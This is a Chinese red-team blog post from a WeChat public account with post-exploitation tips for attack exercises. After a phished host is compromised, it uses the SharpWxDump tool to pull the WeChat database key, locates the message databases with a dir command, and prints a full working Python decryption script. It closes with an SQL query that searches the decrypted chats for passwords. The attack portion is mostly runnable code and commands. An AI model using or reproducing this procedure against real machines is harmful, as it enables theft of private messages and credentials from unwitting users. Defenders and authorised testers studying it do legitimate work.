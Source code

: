 #  攻防演练中解密微信聊天记录寻找密码的Tips

原创 NightCrawler [ 夜组安全 ](javascript:void\(0\);)

**夜组安全** ![]()

微信号 NightCrawler_Team

功能介绍 "恐惧就是貌似真实的伪证" NightCrawler Team(简称:夜组)主攻WEB安全 | 内网渗透 | 红蓝对抗 | 代码审计 |
APT攻击，致力于将每一位藏在暗处的白帽子聚集在一起，在夜空中划出一道绚丽的光线！

____

___发表于_

收录于合集

#红蓝对抗 11 个

#攻防Tips 2 个

免责声明

由于传播、利用本公众号夜组安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号夜组安全及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！

朋友们现在只对常读和星标的公众号才展示大图推送，建议大家把 **夜组安全** “ **设为星标** ”，否则可能就看不到了啦！

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095642.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095642.png)

 **攻防Tips**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095642.png)![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095642.png)

 **01**

 **前言** ****

当我们通过钓鱼上线了目标单位人员的主机上发现这台主机上除了登录了微信之外，在桌面也没有发现任何密码本，主机也没有连接数据库。这时我们就应该从登录的微信入手，搞出一些密码和有用的东西来。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095646.png)

 **02**

 **解密工具介绍**

##  **SharpWxDump**

  * 

    
    
     https://github.com/AdminTest0/SharpWxDump

微信客户端取证，可获取用户个人信息(昵称/账号/手机/邮箱/数据库密钥(用来解密聊天记录))  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095647.png)

得到Wechatkey，解密时需要

 **03**

 **查找微信数据库**

# 查找微信加密数据库文件地址，我的微信一般安装在D盘

  * 

    
    
    演示查找D盘：dir /a /s /b d:\*.db | findstr "MSG0.DB"

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095648.png)

 **04**

 **解密聊天记录**

进入文件夹，找到MSG0.db、MSG2.db、MSG3.db....文件

MSG.db，超出240MB会自动生成MSG1.db，以此类推：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095649.png)

使用解密脚本：

  * 

    
    
    python Decode.py -k 4988C45601A6***************8115FF6D840A -d MSG0.db

  

 **附解密脚本**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     from Crypto.Cipher import AESimport hashlib, hmac, ctypes, sys, getopt  
    SQLITE_FILE_HEADER = bytes('SQLite format 3', encoding='ASCII') + bytes(1)IV_SIZE = 16HMAC_SHA1_SIZE = 20KEY_SIZE = 32DEFAULT_PAGESIZE = 4096DEFAULT_ITER = 64000opts, args = getopt.getopt(sys.argv[1:], 'hk:d:')input_pass = ''input_dir = ''  
    for op, value in opts:    if op == '-k':        input_pass = value    else:        if op == '-d':            input_dir = value  
    password = bytes.fromhex(input_pass.replace(' ', ''))  
    with open(input_dir, 'rb') as (f):    blist = f.read()print(len(blist))salt = blist[:16]key = hashlib.pbkdf2_hmac('sha1', password, salt, DEFAULT_ITER, KEY_SIZE)first = blist[16:DEFAULT_PAGESIZE]mac_salt = bytes([x ^ 58 for x in salt])mac_key = hashlib.pbkdf2_hmac('sha1', key, mac_salt, 2, KEY_SIZE)hash_mac = hmac.new(mac_key, digestmod='sha1')hash_mac.update(first[:-32])hash_mac.update(bytes(ctypes.c_int(1)))  
    if hash_mac.digest() == first[-32:-12]:    print('Decryption Success')else:    print('Password Error')blist = [blist[i:i + DEFAULT_PAGESIZE] for i in range(DEFAULT_PAGESIZE, len(blist), DEFAULT_PAGESIZE)]  
    with open(input_dir, 'wb') as (f):    f.write(SQLITE_FILE_HEADER)    t = AES.new(key, AES.MODE_CBC, first[-48:-32])    f.write(t.decrypt(first[:-48]))    f.write(first[-48:])    for i in blist:        t = AES.new(key, AES.MODE_CBC, i[-48:-32])        f.write(t.decrypt(i[:-48]))        f.write(i[-48:])

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095650.png)

此时文件夹下的MSG0.db已解密，使用navicat打开

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095651.png)

可以对关键词进行查找：

  * 

    
    
    SELECT * FROM "MSG" WHERE StrContent  like'%密码%'

**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095652.png)**

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095654.png)

  

 **05**

 **参考链接**

https://github.com/AdminTest0/SharpWxDump

https://mp.weixin.qq.com/s/4DbXOS5jDjJzM2PN0Mp2JA

 **06**

 **往期精彩**

[ ![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095655.png)

一个终身免费的 _安全武器库_

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485483&idx=1&sn=636d5c32271c9d5b6faa861508d32086&chksm=c3684cd3f41fc5c543a47a019cba9614fade2e06b34dcf237f2877b4ddefe80a0b3cb416697f&scene=21#wechat_redirect)  
[
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095655.png&random=0.9455969846731584)

超级友好的 _安全武器库_ 和技术交流群

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485631&idx=1&sn=f53898523447469d01fda4a6cccbaa93&chksm=c3684c47f41fc551e6112994c7e8f535fdcfbb960bb250154e98629437477ba8def56d34219f&scene=21#wechat_redirect)  
[ ![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095657.png)

_兄弟们_ 都进来说个大事

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485400&idx=1&sn=d3958ce2f6a8609c543de4d4862a34ec&chksm=c3684320f41fca362b7f1833482a3847dbf12ce51ef2c0bb1fee7fa86e9dfade09df1fa56775&scene=21#wechat_redirect)  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看


